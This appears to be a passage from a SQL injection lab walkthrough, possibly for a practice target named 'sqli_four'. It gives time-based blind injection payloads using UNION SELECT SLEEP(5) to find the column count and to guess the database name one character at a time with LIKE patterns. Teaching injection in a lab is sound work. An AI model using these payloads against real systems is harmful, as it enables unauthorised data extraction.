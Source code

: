     admin123' UNION SELECT SLEEP(5),2;--
![increasing column number](images/29-increasing.png)<br/>
In this case value `2` is the last column number<br/>

    admin123' UNION SELECT SLEEP(5),2 where database() like 's%';--
![db finding](images/30-db-finding.png)<br/>
As you can see here database character start with `s`<br/>

    admin123' UNION SELECT SLEEP(5),2 where database() like 'sqli_four%';--